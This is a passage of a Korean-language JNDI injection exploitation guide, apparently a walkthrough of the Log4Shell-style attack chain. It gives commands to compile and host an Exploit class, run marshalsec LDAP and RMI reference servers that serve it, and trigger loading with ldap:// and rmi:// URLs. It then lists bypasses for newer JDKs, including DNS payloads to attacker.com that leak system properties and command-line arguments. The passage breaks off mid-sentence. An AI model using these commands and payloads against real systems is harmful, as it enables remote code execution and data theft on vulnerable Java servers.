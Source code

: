 2. 코드를 컴파일합니다.

javac Exploit.java -source 8 -target 8



3. Exploit.class를 Http 서버에 호스팅하세요.

```bash
python3 -m http.server 8081
```

4. LDAP/RMI 서버를 실행하세요. 이곳에서는 marshalsec을 사용하여 서버를 시작합니다.

```java
#LDAP
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://PythonServerServingRemoteClass:8081/#Exploit"
```



```js
#RMI
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer  "http://PythonServerServingRemoteClass:8081/#Exploit"
```

5. Execute Payload

- LDAP : ldap://LDAPServerIP:1389/Exploit
- RMI : rmi://RMIServerIP:1099/Exploit

## Exploiting JNDI in Newer JDK Versions




새로운 JDK 버전에서 JNDI 취약점을 완화하기 위해 시행된 제한 사항에도 불구하고, 여전히 공격자가 그들을 악용할 수 있는 시나리오를 설명하는 몇 가지 상황을 소개합니다.

1. trustURLCodebase가 True로 설정된 경우

- com.sun.jndi.ldap.object.trustURLCodebase가 명시적으로 True로 설정된 경우, 이는 그 제한을 해제하고 기본 악용을 사용하여 악용될 수 있습니다.

```js
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true"); //LDAP
```



2. DNS 메시지 조회를 통한 남용

- 최신 Java 버전에서는 JNDI 원격 클래스 로딩이 금지되었지만, 메시지 조회 메커니즘 자체는 여전히 작동합니다.
- 탐지 - `$'jndi:dns://attacker.com/gg`
- DNS 데이터 유출→ `$'jndi:ldap://$'BELOWPAYLOADHERE'.attacker.com/gg`
- 예시 Payloads
  - main:argumentName → 명령행 인수의 값 유출
  - sys:propname ⠀⠀⠀ → 시스템 속성 값 유출(예: user.name)

3. 로컬 클래스 경로에서의 공격성 팩토리 클래스 남용

- 더 높은 버전에서는 악의적 Factory가 원격으로 로드되지는 않지만, 공격자는 여전히 제공된 JNDI Reference를 통해 Factory 클래스와 해당 속성을 지정할 수 있습니다.
- 공격자는 취약한 프로그램의 클래스 경로에 있는 어떤 Factory 클래스든 가젯으로 재사용할 수 있습니다.
- 사용 가능한 Factory 클래스는 다음과 같은 속성을 가질 것입니다:
